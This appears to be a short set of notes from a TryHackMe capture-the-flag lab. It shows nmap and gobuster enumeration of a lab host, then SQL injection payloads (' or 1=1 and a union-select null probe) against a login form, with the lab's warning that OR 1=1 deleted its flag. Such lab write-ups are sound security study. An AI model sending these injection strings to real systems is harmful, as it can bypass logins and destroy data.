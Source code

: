 
<code>
  
### Enumeration nmap, gobuster
  
┌──(duke㉿kali)-[~/Documents/THM_LessonLearned]
└─$ nmap  -sV -Pn 10.10.177.226
Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-22 03:57 CDT
Nmap scan report for 10.10.177.226
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.38 seconds

┌─(duke㉿kali)-[/Documents/THM_LessonLearned]
└$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.177.226 -x .php, .txt, .html

Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://10.10.177.226
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,
[+] Timeout:                 10s

2024/03/22 03:59:43 Starting gobuster in directory enumeration mode

/index.php            (Status: 200) [Size: 1223]
/manual               (Status: 301) [Size: 315] [--> http://10.10.177.226/manual/]
/server-status        (Status: 403) [Size: 278]                                   
                                                                                  

2024/03/22 04:38:45 Finished

### sql injection ' or 1=1

Oops! It looks like you injected an OR 1=1 or similar into the username field. This wouldn't have bypassed the login because every row in the users table was returned, and the login check only proceeds if one row matches the query.

However, your injection also made it into a DELETE statement, and now the flag is gone. Like, completely gone. You need to reset the box to restore it, sorry.

OR 1=1 is dangerous and should almost never be used for precisely this reason. Not even SQLmap uses OR unless you set --risk=3 (the maximum). Be better. Be like SQLmap.

Lesson learned?

P.S. maybe there is less destructive way to bypass the login...

##  1' union select null -- -
  
</code>
